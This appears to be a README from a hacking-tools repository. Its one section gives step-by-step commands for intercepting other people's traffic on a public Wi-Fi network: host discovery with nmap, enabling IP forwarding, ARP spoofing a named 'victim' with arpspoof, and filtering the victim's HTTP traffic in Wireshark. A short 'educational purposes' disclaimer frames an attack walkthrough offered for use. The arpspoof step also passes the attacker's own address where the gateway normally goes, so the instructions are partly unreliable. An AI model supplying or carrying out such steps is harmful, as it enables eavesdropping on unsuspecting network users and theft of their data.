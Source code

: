 # Hacking-Toolkit
I compiled all hacking tools I have found, Credit to the original writers of these tools. Please use this code at your own risk and NEVER TRY IT ON A WEBSITE YOU DON'T HAVE PERMISSION FROM  I REPEAT NEVER.
This is only for educational purposes, If you do choose to use it for malicious purposes I am not held responsible.

Here are the instructions on how to use each tool:

1: Invasion (This only works if you are trying to access a public WI-FI access point)

Requirements: Kali Linux or other Linux with required tools installed, Nmap, Arpspoof, and Wireshark

Step 1: Connect to the target network and run the following command in the terminal:

ip route

Step 2: Next step is to use nmap to find the different hosts connected to the network by executing the following command:

nmap -sP -n "gateway address/ip range"

Step 3: Enable IP forwarding using the command:

echo 1 > /proc/sys/net/ipv4/ip_forward

Step 4: To get victim traffic on our device, we will be using arpspoof command. For arpspoof command we require to know the interface on which we carry out the attack, for that run the following command:

ifconfig

Now run the following command:

arpspoof -i wlp3s0 -t "victim host ip address" -r "our ip address"

Step 5: Finally to intercept the victim’s traffic we are going to use Wireshark and all we have to do is use the victim’s IP Address. Let’s say we only want to have HTTP traffic, we can use the following query:

http && ip.addr == "victim's ip address"



